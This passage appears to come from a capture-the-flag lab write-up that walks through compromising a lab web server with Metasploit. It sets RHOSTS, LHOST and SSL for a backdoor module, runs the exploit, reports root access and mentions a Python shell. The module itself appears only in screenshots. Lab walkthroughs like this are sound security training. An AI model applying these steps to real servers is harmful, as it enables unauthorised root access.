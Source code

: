 You can use any module any module that you want, I will use the module that can create backdoor to the web server.
<br>
<p align="center">
  <img width="80%" height="400" src="assets/source4.PNG">
</p>
<br>

Now, we need to setup the payload ```RHOST```, ```LHOST``` and ```SSL``` (since the server uses SSL).

```
set RHOSTS 10.10.x.x
```
```
set LHOST your_ip_address
```
```
set SSL true
```
<br>

### Task 3: Gaining access
Execute the payload using ```run``` or ```exploit``` command.
<p align="center">
  <img width="80%" height="200" src="assets/source7.PNG">
</p>
<br>
As you can see, we get the root access. We can use python to create a stable shell.
<br><br>
